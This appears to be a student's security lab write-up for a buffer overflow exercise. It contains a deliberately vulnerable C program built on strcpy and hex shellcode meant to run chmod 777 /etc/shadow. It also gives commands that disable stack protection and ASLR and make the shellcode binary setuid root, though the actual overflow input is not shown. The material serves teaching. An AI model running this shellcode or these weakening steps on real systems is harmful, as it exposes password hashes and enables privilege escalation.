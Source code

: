 # 22110088 - Bui Tho Anh Tu

## Task 1: Software buffer overflow attack
Given a vulnerable C program 
```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```c
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
Compile the shellcode:
```bash
gcc -g -fno-stack-protector -z execstack -o shellcode shellcode.c -mpreferred-stack-boundary=2
```
Compile the C program:
```bash
gcc -g -fno-stack-protector -z execstack -o vulnerability vulnerability.c -mpreferred-stack-boundary=2
```
Make the shellcode executed as root:
```bash
sudo chown root shellcode
sudo chmod 4777 shellcode
```
Disable the Address Space Layout Randomization (ASLR)
```bash
sudo sysctl -w kernel.randomize_va_space=0
```
